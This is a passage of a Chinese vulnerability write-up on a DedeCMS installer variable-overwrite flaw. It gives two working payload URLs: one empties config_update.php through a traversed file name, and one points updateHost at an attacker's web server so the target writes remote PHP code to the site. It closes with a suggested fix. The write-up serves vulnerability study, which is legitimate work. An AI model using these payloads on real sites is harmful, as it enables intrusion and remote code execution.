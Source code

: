 ![](https://i.loli.net/2021/02/14/tHFvmb8LRqnlY4p.png)



2.updateHost是来自于config_update.php的包含，无法直接将该变量覆盖。
故需要借用`fopen($install_demo_name,'w')`**将config_update.php清空**
(w权限特质, 文件存在则清空内容再写入)



构造payload：

传入`$install_demo_name=config_update.php；`

而`fwrite($fp,$sql_content)`的存在会将 `$sql_content` 写入`config_update.php`

`$sql_content`是提取`$rmurl`指代的文件内容写入

`file_get_contents`读取失败时返回NULL，因此控制`$s_lang`为不存在的文件名即可使`$sql_content`= NULL

```
payload：
xxx/uploads/install/index.php?step=11&insLockfile=1&install_demo_name=../data/admin/config_update.php&s_lang=hhhhhh
```

显示为0kb，显然config_update.php已被清空了

![](https://i.loli.net/2021/02/14/PUsAi5xjzIXw1c7.png)



3.随着config_update.php的清空，参数updateHost变得可控，可以开始远程上传文件了~



在kali上创建一个dedecms文件夹,然后创建一个demodata.gb2312.txt,写入`<?php phpinfo();?>` 

然后开启web服务: `sudo service apache2 start`

![](https://i.loli.net/2021/02/14/P7RzZ83vpw1kISt.png)

```
payload：
xxx/uploads/install/index.php?step=11&insLockfile=1&install_demo_name=../info.php&updateHost=目标主机ip
```

显示如下画面即成功

![](https://i.loli.net/2021/02/14/tHFvmb8LRqnlY4p.png)

如下

![](https://i.loli.net/2021/02/14/DEIowJPlQvh3dyG.png)



此漏洞根源还是变量覆盖，修复：

1、可以看看DISCUZ是怎么做的，当发现KEY的第一个字符存在_就不注册变量。

```php
foreach(array(‘_COOKIE’, ‘_POST’, ‘_GET’) as $_request) {

 foreach($$_request as $_key => $_value) {

 $_key{0} != ‘_’ && $$_key = daddslashes($_value);

 }

}
```

